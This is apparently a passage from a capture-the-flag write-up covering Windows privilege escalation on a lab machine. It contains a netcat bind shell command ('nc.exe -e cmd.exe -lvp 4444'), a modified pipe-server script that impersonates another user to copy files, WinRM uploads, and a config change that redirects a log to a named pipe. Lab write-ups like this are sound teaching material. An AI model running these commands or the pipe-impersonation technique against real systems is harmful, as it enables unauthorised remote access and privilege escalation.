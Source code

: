 I’ll write a simple bat file to open a `nc` listener:

```

root@kali# cat df.bat
c:\windows\system32\spool\drivers\color\nc.exe -e cmd.exe -lvp 4444

```

I’ll create a copy of `pipeserverimpersonate.ps1`, `pipe.ps1`, and add a line where I can run code as hacker to copy my bat file into the spool directory:

```

...[snip]...
### we are impersonating the user, everything we do before RevertoSelf is done on behalf that user
echo "user=$user "
copy \windows\system32\spool\drivers\color\df.bat \util\scripts\spool\0xdf.bat
...[snip]...

```

I’ll use the WinRm upload to bring `nc64.exe`, `df.bat`, and `pipe.ps1` to target:

```

PS hackback\simple@HACKBACK scripts> UPLOAD nc64.exe \windows\system32\spool\drivers\color\nc.exe
Uploading nc64.exe to \windows\system32\spool\drivers\color\nc.exe26892 bytes of 60360 bytes copied
53784 bytes of 60360 bytes copied
60360 bytes of 60360 bytes copied
OK

PS hackback\simple@HACKBACK spool> UPLOAD pipe.ps1 \windows\system32\spool\drivers\color\df.ps1
Uploading pipe.ps1 to \windows\system32\spool\drivers\color\p.ps113016 bytes of 13016 bytes copied
OK

PS hackback\simple@HACKBACK Documents> UPLOAD df.bat \windows\system32\spool\drivers\color\df.bat
Uploading df.bat to \windows\system32\spool\drivers\color\df.bat88 bytes of 88 bytes copied
OK

```

Now I’ll change `clean.ini` to write to the pipe, and then start the ps1 server:

```

PS hackback\simple@HACKBACK scripts> echo "[Main]`nLifeTime=100`nLogFile=\\.\pipe\dummypipe`nDirectory=c:\inetpub\logs\logfiles" > \util\scripts\clean.ini

PS hackback\simple@HACKBACK scripts> . \windows\system32\spool\drivers\color\df.ps1
Waiting for connection on namedpipe:dummypipe

```

After a few minutes, I get a connection:

```

ImpersonateNamedPipeClient: 1                                                      
user=HACKBACK\hacker                                       
OpenThreadToken:True                                                     
True                                                      
CreateProcessWithToken: False  1058  
PS hackback\simple@HACKBACK scripts>

```
